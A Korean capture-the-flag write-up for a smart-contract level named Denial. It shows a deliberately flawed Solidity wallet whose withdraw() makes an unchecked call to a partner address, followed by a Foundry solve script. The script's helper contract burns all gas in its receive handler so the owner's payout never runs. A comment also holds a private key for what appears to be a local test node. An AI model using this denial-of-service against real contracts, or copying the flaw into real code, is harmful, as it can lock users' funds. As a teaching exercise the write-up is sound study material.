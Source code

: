 # 지문

이것은 일정 시간에 걸쳐 자금을 조금씩 흘려주는(drip) 간단한 지갑입니다.
출금 파트너(withdrawing partner)가 되면 자금을 천천히 출금할 수 있습니다.

만약 컨트랙트에 여전히 자금이 남아 있고 트랜잭션이 100만 가스 이하일 때, 소유자가 `withdraw()`를 호출해도 출금을 막을 수 있다면 이 레벨에서 승리하게 됩니다.


```solidity
// SPDX-License-Identifier: MIT
pragma solidity ^0.8.0;

contract Denial {
    address public partner; // withdrawal partner - pay the gas, split the withdraw
    address public constant owner = address(0xA9E);
    uint256 timeLastWithdrawn;
    mapping(address => uint256) withdrawPartnerBalances; // keep track of partners balances

    function setWithdrawPartner(address _partner) public {
        partner = _partner;
    }

    // withdraw 1% to recipient and 1% to owner
    function withdraw() public {
        uint256 amountToSend = address(this).balance / 100;
        // perform a call without checking return
        // The recipient can revert, the owner will still get their share
        partner.call{value: amountToSend}("");
        payable(owner).transfer(amountToSend);
        // keep track of last withdrawal time
        timeLastWithdrawn = block.timestamp;
        withdrawPartnerBalances[partner] += amountToSend;
    }

    // allow deposit of funds
    receive() external payable {}

    // convenience function
    function contractBalance() public view returns (uint256) {
        return address(this).balance;
    }
}
```

# 풀이 

만약 컨트랙트에 여전히 자금이 남아 있고 트랜잭션이 100만 가스 이하일 때, 소유자가 `withdraw()`를 호출해도 출금을 막을 수 있다면 이 레벨에서 승리하게 됩니다.

^ 이것이 문제의 풀이 조건인데 그냥 partner가 된 이후에 receive handler에서 gas를 다 소모시켜서 그 뒤의 코드가 실행되지않도록 만들면됨.

```solidity
// SPDX-License-Identifier: UNLICENSED
pragma solidity ^0.8.13;

import {Script} from "forge-std/Script.sol";
import "forge-std/console.sol";

interface ITarget {
    function setWithdrawPartner(address _partner) external;
    function contractBalance() external view returns (uint256);
    function withdraw() external;
    function partner() external view returns (address);
}

contract Helper {

    function trigger(address target) public {
        ITarget(target).setWithdrawPartner(address(this));
    }
    receive() external payable {
        uint256 a = 0;
        while(true){
            a+=1;
            a-=1;
        }
    }
}
contract SolveScript is Script {
    address public target = 0xe73bc5BD4763A3307AB5F8F126634b7E12E3dA9b;

    function setUp() public {}

    // forge script -vvv script/Solve.s.sol --broadcast --tc SolveScript --legacy --private-key 0x5de4111afa1a4b94908f83103eb1f1706367c2e68ca870fc3fb9a804cdab365a --rpc-url http://localhost:8545
    function run() public {
        vm.startBroadcast();
        Helper helper = new Helper();
        helper.trigger(target);
        console.log("helper address : %s", address(helper));
        console.log("target partner : %s", ITarget(target).partner());
        vm.stopBroadcast();
    }
}
```